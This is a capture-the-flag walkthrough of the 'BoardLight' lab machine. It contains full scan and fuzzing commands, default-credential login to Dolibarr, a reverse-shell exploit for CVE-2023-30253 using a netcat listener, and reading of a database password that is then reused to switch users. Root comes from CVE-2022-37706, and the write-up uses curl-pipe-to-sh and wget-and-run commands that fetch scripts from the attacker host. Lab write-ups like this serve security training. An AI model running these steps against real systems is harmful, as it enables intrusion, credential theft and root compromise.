




<div style="display: flex; align-items: center;">
  
  <div>
    <p style="font-size:35px;"><b>BoardLight</b></p>
    <p style="font-size:20px;">Linux • <font color="#8ac73e">Easy</font></p>
  </div>
</div>

## Nmap - Directory Busting

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -T4 10.10.11.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-10 05:30 EDT
Nmap scan report for board.htb (10.10.11.11)
Host is up (0.083s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.83 seconds
```

We will also try some (sub)directory fuzzing.
```bash
$ gobuster dir -u http://board.htb -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://board.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/css                  (Status: 301) [Size: 304] [--> http://board.htb/css/]
/images               (Status: 301) [Size: 307] [--> http://board.htb/images/]
/js                   (Status: 301) [Size: 303] [--> http://board.htb/js/]
/server-status        (Status: 403) [Size: 274]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

```bash
$ ffuf -u http://board.htb/ -H 'Host: FUZZ.board.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 15949

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 136ms]
:: Progress: [114441/114441] :: Job [1/1] :: 188 req/sec :: Duration: [0:06:37] :: Errors: 0 ::
```

When accessing `/server-status` we get a `Forbidden` error, where the Apache server version is displayed:\


From BurpSuite we also find that `jquery v3.4.1` is used.

We add `crm.board.htb` to our `hosts` file, and try to access it.\


## crm.board.htb

We look up online and find the default credentials for `Dolibarr` (`admin\admin`).\


We find CVE-2023-30253
> Dolibarr before 17.0.1 allows remote code execution by an authenticated user via an uppercase manipulation: <?PHP instead of <?php in injected data.

We will be using [nikn0laty's exploit](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) to achieve reverse shell.

We open a netcat server:
```bash
$ nc -lvp 4444
```
And run the exploit:
```
$ python3 exploit.py http://crm.board.htb admin admin 10.10.14.48 4444
```

Now we have shell access!
```bash
$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.48] from board.htb [10.10.11.11] 43424
bash: cannot set terminal process group (858): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ 
```
We will also run `script -qc /bin/bash /dev/null` to upgrade it to interactive shell, and `export PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '`.

# Looking for the flags

Looking online we see that `Dolibarr`'s config file is `conf/conf.php`:
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ find / -name 'conf.php' 2>/dev/null
<ind / -name 'conf.php' 2>/dev/null                                                       
/var/www/html/crm.board.htb/htdocs/conf/conf.php
```
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
<at /var/www/html/crm.board.htb/htdocs/conf/conf.php                                      
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

From that we have username-password for the DB (`dolibarrowner/serverfun2$2023!!`)

We can now try and use that to login as user, and get the flag:
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ su larissa     
su larissa
Password: serverfun2$2023!!

larissa@boardlight:/var/www/html/crm.board.htb/htdocs/public/website$ 
```

The user `may not run sudo on localhost`.

We will try to use `linpeas`.\
On Attacker:
```bash
$ sudo python3 -m http.server 80
```
On Victim:
```bash
larissa@boardlight:/var/www/html/crm.board.htb/htdocs/public/website$ curl 10.10.14.48/linpeas.sh | tee linpeas_output.txt | sh
```

After looking at it for *a while*, I found this:\
\
It's probably a hint from the machine's name (board**light**).

Based on that, we find `CVE-2022-37706`:
> enlightenment_sys in Enlightenment before 0.25.4 allows local users to gain privileges because it is setuid root, and the system library function mishandles pathnames that begin with a /dev/.. substring. 

We will be using [MaherAzzouzi's exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit).\
We clone it one our machine and open a server:
```bash
$ git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
$ cd CVE-2022-37706-LPE-exploit
$ sudo python3 -m http.server 80
```
And then run the exploit on victim machine:
```bash
larissa@boardlight:/tmp$ wget http://10.10.14.48/exploit.sh
larissa@boardlight:/tmp$ bash exploit.sh
bash exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
whoami
root
# 
```

And now we can get the root flag!
